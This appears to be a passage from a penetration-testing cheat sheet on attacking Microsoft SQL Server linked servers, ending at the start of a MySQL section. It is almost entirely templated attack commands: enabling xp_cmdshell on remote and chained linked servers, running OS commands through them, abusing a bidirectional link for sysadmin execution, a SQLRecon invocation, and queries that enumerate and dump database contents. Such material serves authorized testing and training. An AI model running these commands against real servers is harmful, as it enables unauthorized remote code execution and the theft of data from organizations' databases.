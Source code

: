 	- SQL query:
		- 1\. Check if ‘RPC out’ is enabled on the current and the remote database \(without openquery syntax for current database\) \(SQL query\): `select * from openquery("<target MSSQL server>",'select srvname,rpc,rpcout from master..sysservers')`
		- 2\. \(optional\) if 'RPC out' is disabled on the current database try to enable it \(SQL query\): `EXEC sp_serveroption @server = '<remote database name>', @optname = 'rpc out', @optvalue = 'on';`
		- 3\. Enable xp\_cmdshell on remote database \(SQL query\): `EXECUTE('sp_configure ''show advanced option'',1;reconfigure;') AT "<remote MSSQL database>" EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "<remote MSSQL database>"`
		- 4\. Verify if successful \(SQL query\): `select * from openquery("<remote MSSQL database>",'SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name = ''xp_cmdshell'';');`
- Execute code on the first linked MSSQL server: 
	- \([SQLRecon](https://github.com/skahwah/SQLRecon)\): `SQLRecon.exe -a Windows -s <MSSQL server name> -d master -l <target MSSQL server> -m lxpcmd -o "<command>"`
	- SQL query: `select * from openquery("<SQL linked server>", 'select @@servername; exec xp_cmdshell ''<command>''')`
- Execute code on the second linked MSSQL server \(SQL query\):  `select * from openquery("<1st SQL linked server>", 'select * from openquery("<2nd SQL linked server>", ''select @@servername; exec xp_cmdshell ''''<command>'''''')')`
- Check for bidirectional SQL link misconfiguration that allows for the execution of SQL queries from the context of the target MSSQL server back on the current MSSQL server as a sysadmin user:
	- 1\. Check in which context the target database instance login user can run SQL queries in the current database instance \(SQL query\): `select mylogin from openquery("<remote database name>", 'select mylogin from openquery("<current database name>", ''select SYSTEM_USER as mylogin'')')`
	- 2\. Enable 'xp\_cmdshell' on the current database instance via the target database instance \(SQL query\):
		- `EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT <current database name>') AT <remote database name>`
		- `EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT <current database name>') AT <remote database name>`
	- 3\. Run code on the current database instance \(SQL query\): `EXEC ('EXEC (''xp_cmdshell ''''<Command>'''''') AT <current database name>) AT <remote database name>`

##### _Database content enumeration:_
- MSSQL queries to list the content of the database:
	- List databases: `SELECT name FROM master..sysdatabases;`
	- List tables: `SELECT name FROM <database name>..sysobjects WHERE xtype = 'U';`
	- List columns: `SELECT <database name>..syscolumns.name, TYPE_NAME(<databasename>..syscolumns.xtype) FROM <database name>..syscolumns, <databasename>..sysobjects WHERE <database name>..syscolumns.id=<databasename>..sysobjects.id AND <database name>..sysobjects.name='<table name>';`
	- Dump content column: `SELECT <column name> FROM <database_name>..<corresponding table name>;`
- Search database content over SQL links: 
	- List databases and tables \(SQL query\): `select * from openquery("<target MSSQL server>", 'select * from information_schema.tables')`
	- List Columns \(SQL query\): `select * from openquery("<target MSSQL server>", 'select column_name from master.information_schema.columns')`
	- Dump content column \(SQL query\): `select * from openquery("<target MSSQL server>", 'select <column name> from master.dbo.<table name>')`


---
### __MySQL/MariaDB database:__
##### _Access to database:_
- Login to database instance: `(proxychains4) mysql -h <server ip> -u <db username> (-p db_name)`
